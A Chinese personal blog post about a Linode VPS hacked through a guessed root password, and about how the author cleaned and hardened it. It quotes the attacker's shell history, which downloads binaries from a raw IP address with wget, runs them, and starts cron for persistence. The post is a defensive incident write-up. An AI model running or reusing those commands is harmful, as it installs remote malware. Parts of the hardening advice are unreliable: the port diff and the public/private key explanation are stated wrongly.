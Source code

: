 ```yaml
---
title: linode 使用记
slug: linode_usage
image: https://yun.weenas.com:8006/sUN8UI.jpg
date: 2016-12-21 14:48:15
tags:
description: "VPS初体验"
categories:
  - 网络
  - VPS
keywords:
  - VPS
  - linode
hide: true
---
```


使用Linode也有一段时间了，感觉非常不错，虽然使用的是加州的机房，延时基本上稳定在200ms左右，web访问感觉不明显，ssh尚可接受。据说日本机房在100ms多一点，但是考虑到要做迁移工作，还是先保持不动吧，待有时间再研究。

## 被攻击了

由于以前都是在局域网或者虚拟机上搭建服务器，从来没有关注过安全方面的配置，导致我的VPS安全配置不足。上个月遭受到Dos攻击，让我意识到了安全的重要性 ，以前没有什么概念，原来网络攻击离我们这么近。

被攻击后的症状是疯狂的往外发数据，从下面的图表可以看出有三天的时间几乎是满负荷的发送（注意看左边的单位），导致我2TB的流量在两天不到就被消耗殆尽。其实在使用80%流量时系统会自动发送邮件提醒，当时正值国庆假期，收到邮件时没有引起重视。后来Linode客服也发现了异常，主动创建了一个Ticket问我是怎么回事，我才发现流量已经超了400多G。。

![linode_data_traffic.jpg](https://yun.weenas.com:8006/MYs6OE.jpg)

赶紧登录上去使用nethogs查看网络使用情况，原来是一个名叫mysql515的进程在以80Mbps左右的速度往外发送数据，立即kill掉再想办法清理。

想要知道为什么被攻击，就必须知道哪些人登录过服务器，`/var/log/auth.log`是一个重要的线索，它记录了所有用户的登录日志。打开后非常壮观，已经有好几万行的日志，其中有很大一部分都是尝试root和admin的错误登录记录，应该是利用脚本不断的尝试root密码。这么多日志也不好去查什么时间被谁攻破，我估计root密码已经被试出来了，因为我的密码是一个常用单词。查看`/root/.bash_history`，一切都明白了：

```log
service crond start
/etc/rc.d/init.d/crond start
killall -9 cnet2
cd /bin
rm -rf cnet2
wget -c http://61.160.194.120:120/cnet2
chmod 0755 /bin/cnet2
./cnet2
cd /etc
mkdir init.d
mkdir rc.d
cd /etc/rc.d
mkdir rc5.d
cd /bin
rm -rf mysql515 cnet2 socket
wget -c http://61.160.194.120:121/mysql515
chmod 0777 /bin/mysql515
./mysql515
service crond start
/etc/rc.d/init.d/crond start
```

按图索骥，根据它执行的命令将所有相关的文件找到并彻底删除，注意有启动cron服务，它在`/etc/crontab`里面增加了一个定时启动脚本，也要一并删除，不然还会死灰复燃。

## 如何防护

以上只是查找和清除病毒文件，如何防止以后再被攻击呢？我做了以下措施：

1. 必须的，修改root密码，大写小写数字符号，能用上的都用上，不要忘记就好。:)
2. 禁止ssh的root登录

```diff
/etc/ssh/sshd_config
- PermitRootLogin yes
+ PermitRootLogin no
```

3. 修改ssh的默认端口，只要65535以内都行，比如修改为`622`。当然，登录需要多增加一个端口参数：`ssh -p 622 user@server.com`，另外还要注意修改服务器的防火墙设置。

```diff
/etc/ssh/sshd_config
- Port 22
- Port 622
```

4. 改用ssh密钥登录,即使用`ssh-keygen`生成公钥和私钥，在服务器配置好私钥，远程使用公钥登录，这样可以完全禁用密码登录

修改后，再去查看`/var/log/auth.log`，世界一下就清净了。当然，以上的修改不足以使VPS非常安全，但是防止普通的攻击已经足够了。

这里要赞一个Linode的客服，他们的服务非常的周到而且专业，主动建立Ticket，每天都会在Ticket上问你的进展并询问你是否需要帮助，在任何时候你需要帮助他们都会在10分钟以内给予你答复，一个月10刀的价格我觉得值了，想想国内的公司什么时候能做到这种水平。

忘记说超流量的收费问题了，信用卡账单下来才知道这个月多收了47刀，价格是0.1刀/1G，也就是说我超了470G，价格不便宜，但是正常使用我想怎么样也不会超吧，所以请大家千万做好防护措施。万幸的是攻击发生在月末，有部分流量是算10月份的，否则多交的钱可能翻番。

最后，祝大家都能拥有满意的VPS！
